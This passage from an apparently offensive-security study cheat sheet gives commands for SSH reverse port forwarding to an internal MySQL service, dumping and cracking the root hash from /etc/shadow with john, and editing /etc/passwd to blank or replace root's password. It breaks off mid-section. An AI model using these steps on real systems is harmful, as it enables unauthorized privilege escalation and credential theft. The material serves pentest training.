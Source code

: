 * * *

## **PORT FORWARDING**

If a service is not accessible from the outside, then we can make a port forwarding

### SSH Forwarding

ssh -R <local-port>:127.0.0.1:<service-port> <username>@<local-machine>

ssh -R 2222:127.0.0.1:3306 ghost@10.10.14.209

Then on Kali we can access mysql via cli like this

mysql -u root -h 127.0.0.1 -P 2222

* * *

## **Crack Shadow Hash**

If we can the /etc/shadow file, then the first line is the root hash.

$ head -n 1 /etc/shadow

root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::

In that case, the hash is this:

$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0

Crack with john

john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

* * *

## **EXPLOIT PASSWD**

The root account in /etc/passwd is usually configured like this:

root:x:0:0:root:/root:/bin/bash

The “x” in the second field instructs Linux to look for the password hash in the /etc/shadow file.

### First way

In some versions of Linux, it is possible to simply delete the “x”, which Linux interprets as the user having no password:

root::0:0:root:/root:/bin/bash

### Second way

Generate a password hash for the password “password” using openssl:

$ openssl passwd "password"
L9yLGxncbOROc
